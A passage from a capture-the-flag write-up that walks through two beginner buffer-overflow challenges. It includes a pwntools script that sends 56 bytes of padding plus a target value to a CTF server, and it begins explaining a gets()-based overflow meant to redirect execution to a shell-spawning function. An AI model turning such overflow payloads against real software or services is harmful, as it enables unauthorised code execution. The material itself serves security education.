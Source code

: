 So we have successfully confirmed we have control over the vcalue of check. Now all we need to do is have 56 bytes of junk characters, then replace the last 4 characters (which are Bs) to the desired value. We can use `pwntools` to connect and send our input to the server and get the flag.

<figure><img src="../.gitbook/assets/image (1) (10).png" alt=""><figcaption></figcaption></figure>

```python
from pwn import *

#r = process('chall')
r = remote("challs.ctf.cafe", 7777)

addr = p64(0xc0febabe) # format the bytes

junk = b'A' * 56
payload = junk + addr # combine payload
r.sendline(payload)
r.interactive()
```

### Onyo

No source code given to me. So, we can use `ghidra` to decompile and view the pseudocode for this binary in C. Viewing the `main` function, we this pseudocode:

<figure><img src="../.gitbook/assets/image (16) (5).png" alt=""><figcaption></figcaption></figure>

This uses `gets`, which is a vulnerable function when getting user input. This, combiend with the small array size of the `local_c` variable means this is definitely vulnerbale to a Buffer Overflow. Unlike the previous challenge, we don't have a `check` variable being used to give us a shell.

The output of the binary hint towards another function called `please_call_me`, and we have to somehow call the function. Viewing the function in Ghidra, all it does is give a shell.

<figure><img src="../.gitbook/assets/image (4) (10).png" alt=""><figcaption></figcaption></figure>

So the exploit path is clear: Buffer Overflow --> Control Instruction Pointer --> Call this function --> Get Flag.

Again, we can do our prior enumeration of the file using `file` and `checksec` commands.
